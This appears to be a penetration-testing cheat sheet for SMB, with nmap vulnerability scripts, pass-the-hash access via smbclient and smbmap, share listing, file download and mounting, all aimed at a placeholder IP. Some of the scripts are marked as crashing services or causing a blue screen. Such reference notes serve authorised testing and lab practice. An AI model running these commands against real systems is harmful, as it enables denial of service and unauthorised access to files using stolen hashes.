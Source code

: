 ```yaml
---
layout: default
title: SMB
tags:
    - 139
    - 445
    - block
    - message
    - samba
    - server
    - smbclient
    - smbd
    - smbmap
---
```

# SMB
### Nmap scripts
Safe vulnerability scan
```shell
nmap -p 445 -vv --script=smb-vuln-ms06-025,smb-vuln-ms07-029,smb-vuln-ms08-067,smb-vuln-ms10-061,smb-vuln-ms17-010,smb-vuln-cve-2017-7494 10.10.10.10
```

Windows 2000 regsvc null pointer crash (_**service crashes if successful**_)
```shell
nmap -p 445 -vv --script=smb-vuln-regsvc-dos 10.10.10.10
```

CVE-2009-3103 DOS check (Windows Vista and some of 7 - _**BSOD if successful**_)
```shell
nmap -p 445 -vv --script=smb-vuln-cve2009-3103 10.10.10.10
```

CVE-2010-2550 memory corruption check (_**BSOD if successful**_)
```shell
nmap -p 445 -vv --script=smb-vuln-ms10-054 10.10.10.10
```

### Pass-the-hash
List directories
```shell
smbclient -U <user>%<hash> --pw-nt-hash -L 10.10.10.10
```
```shell
smbmap -u <user> -p '<NTLM hash>:<LM hash>' -H 10.10.10.10
```
- _LM hash is legacy and can usually be anything_
- `--download <path>`: download file
- `-R`: recursively list files

Open specific directory

```shell
smbclient -U <user>%<hash> --pw-nt-hash //10.10.10.10/<directory>
```

### Regular usage
Mount
```shell
mount -t cifs -o username=<username> //10.10.10.10/ /mnt/smb/
```

SMBMap
```shell
smbmap -H 10.10.10.10
```

```shell
smbmap -H 10.10.10.10 -u <username> 
```
- Sometimes adding anything to the `-u` field will return results